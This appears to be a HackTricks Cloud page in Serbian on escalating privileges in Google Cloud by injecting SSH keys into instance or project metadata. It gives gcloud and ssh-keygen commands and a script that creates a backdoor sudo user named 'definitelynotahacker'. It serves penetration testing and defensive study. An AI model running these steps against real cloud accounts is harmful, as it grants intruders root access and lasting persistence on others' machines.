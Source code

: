 # GCP - Dodavanje prilagođenih SSH metapodataka

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Ekspert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih sigurnosnih rizika ako napadač stekne potrebne dozvole**.

### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux gostujuće okruženje za Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ključna komponenta ovoga je [računski demon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance za **ažuriranja ovlašćenih SSH javnih ključeva**.

Stoga, ako napadač može da izmeni prilagođene metapodatke, može naterati demona da pronađe novi javni ključ, koji će biti obrađen i **integriran u lokalni sistem**. Ključ će biti dodat u datoteku `~/.ssh/authorized_keys` postojećeg korisnika ili potencijalno kreiranje novog korisnika sa `sudo` privilegijama, zavisno od formata ključa. I napadač će moći da ugrozi host.

### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Pregled postojećih SSH ključeva na instanci:**
- Izvršite komandu za opis instance i njenih metapodataka kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu će biti pod `metadata`, posebno ključ `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCA] --zone [ZONA]
```
- Obratite pažnju na format SSH ključeva: korisničko ime ide ispred ključa, razdvojeno dvotačkom.

2. **Priprema tekstualne datoteke za SSH ključ metapodatke:**
- Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku nazvanu `meta.txt`. Ovo je bitno za čuvanje postojećih ključeva prilikom dodavanja novih.

3. **Generisanje novog SSH ključa za ciljanog korisnika (`alice` u ovom primeru):**
- Koristite `ssh-keygen` komandu za generisanje novog SSH ključa, obezbeđujući da polje komentara (`-C`) odgovara korisničkom imenu.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodajte novi javni ključ u `meta.txt`, oponašajući format koji se nalazi u metapodacima instance.

4. **Ažuriranje metapodataka SSH ključa instance:**
- Primenite ažurirane metapodatke SSH ključa na instanci koristeći `gcloud compute instances add-metadata` komandu.
```bash
gcloud compute instances add-metadata [INSTANCA] --metadata-from-file ssh-keys=meta.txt
```

5. **Pristup instanci korišćenjem novog SSH ključa:**
- Povežite se sa instancom putem SSH koristeći novi ključ, pristupajući ljusci u kontekstu ciljanog korisnika (`alice` u ovom primeru).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Kreiranje novog privilegovanog korisnika i dodavanje SSH ključa**

Ako nije pronađen nijedan zanimljiv korisnik, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti dostupnost SSH pristupa na više virtuelnih mašina (VMs) u cloud okruženju **primenom SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala projektne SSH ključeve. Evo sažetog vodiča:

1. **Primenite SSH ključeve na nivou projekta:**
- Koristite `gcloud compute project-info add-metadata` komandu da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da se SSH ključevi prepoznaju na svim VMs u projektu, osim ako VM ima omogućenu opciju "Blokiraj projektne SSH ključeve".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH u Instance Koristeći Projektne Ključeve:**
- Sa projektim SSH ključevima na mestu, možete se SSH-ovati u bilo koju instancu unutar projekta. Instance koje ne blokiraju projektne ključeve će prihvatiti SSH ključ, omogućavajući pristup.
- Direktan metod za SSH u instancu je korišćenje `gcloud compute ssh [INSTANCE]` komande. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta kako bi pokušala pristup.

# Reference
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

